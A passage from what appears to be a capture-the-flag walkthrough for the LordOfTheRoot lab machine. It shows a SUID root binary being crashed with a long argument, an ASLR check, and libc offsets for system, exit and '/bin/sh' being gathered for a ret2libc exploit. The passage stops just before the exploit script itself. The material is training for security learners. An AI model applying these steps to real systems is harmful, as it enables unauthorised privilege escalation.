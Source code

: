 ### SUID Binary

So I tried to cause a crash passing it 500 characters as parameter.

```bash
smeagol@LordOfTheRoot:~$ for x in {1..3}; do echo $x; /SECRET/door$x/file $(python -c 'print("A"*500)'); done
1
2
Segmentation fault (core dumped)
3
```

The crash was triggered on the file of the door2, since this vulnerable binary randomly switches doors in a certain period of time, I decided to make a copy of this to another directory.

```bash
smeagol@LordOfTheRoot:~$ ls -la /SECRET/door* | grep file
-rwsr-xr-x 1 root root 7370 Sep 17  2015 file
-rwsr-xr-x 1 root root 5150 Sep 22  2015 file
-rwsr-xr-x 1 root root 7370 Sep 17  2015 file

smeagol@LordOfTheRoot:~$ cp /SECRET/door2/file .
```

Before to start debugging, I was able to detect that the ASLR protection is enabled, since we can see that only two values of the memory address are changing, we can brute force to bypass this.

```bash
smeagol@LordOfTheRoot:~$ cat /proc/sys/kernel/randomize_va_space
2
smeagol@LordOfTheRoot:~$ ldd file | grep 'libc'
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7546000)
smeagol@LordOfTheRoot:~$ ldd file | grep 'libc'
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7521000)
smeagol@LordOfTheRoot:~$ ldd file | grep 'libc'
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb752e000)
```

Exists a technique named ret2lib, this does not require of a shellcode to exploit it, we need to find the memory address of **system, exit and shell**, as shown below:

```bash
smeagol@LordOfTheRoot:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -w 'system'
  1443: 00040190    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
  
smeagol@LordOfTheRoot:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -w 'exit'
   139: 000331e0    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
  
smeagol@LordOfTheRoot:~$ strings -atx /lib/i386-linux-gnu/libc.so.6 | grep '/bin/sh'
 160a24 /bin/sh
```

The following python script helped me to brute force and exploit the vulnerable binary automatically, an interesting article that talks about this topic you can find it [here](https://akshit-singhal.medium.com/how-to-bypass-aslr-to-perform-buffer-overflow-attacks-2d5f6707399c).
